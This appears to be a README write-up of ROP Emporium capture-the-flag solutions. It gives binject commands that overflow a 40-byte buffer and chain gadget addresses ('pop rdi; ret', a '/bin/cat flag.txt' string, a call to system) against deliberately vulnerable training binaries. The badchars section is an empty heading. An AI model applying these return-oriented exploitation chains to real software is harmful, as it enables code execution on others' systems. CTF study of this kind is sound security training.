 # ROP Emporium challenge

## Used tools

- [binject](https://github.com/anarticho/binject)
- [ropper](https://github.com/sashs/Ropper)
- [rabbin2 from radar2](https://github.com/radareorg/radare2)
- [gdb-dashboard](https://github.com/cyrus-and/gdb-dashboard)
- [tgdb-based](https://github.com/ficoos/tgdbdb)

# ret2win

> binject -ns 40 A -x 560740 > key
> ./ret2win < key

# split

To reach usefulFunction and perform system("/bin/ls"), we need to assert a RET instruction in order to align the stack..
And then to effectively branch to the function.
> binject -ns 40 A -x 3E05400000000000 -x 4207400000000000
3E05400000000000: ret instruction
4207400000000000: usefulFunction entry point

To perform the challenge by printing the content of flag.txt:
> binject -ns 40 A -x C307400000000000 -x 6010600000000000 -x 4B07400000000000

As with:
- C307400000000000 the address for 'pop %rdi; ret' gadget,
- 6010600000000000 the address for '/bin/cat flag.txt' string,
- 4B07400000000000 the address for 'call <system>' instruction.

# callme

: OVERFLOW 40 A
: ROP gadget + parameters + callme_xxx
: ...
: ...
(look at c3_callme/bin/generate.sh)

# write4

A bit more complicated this one as:
- gadget to pop r14 and r15 values from stack
- gadget to mov r15 value to r14 location
- gadget to pop rdi from stack (as r14 location)
- gadget to call print_file

# badchars
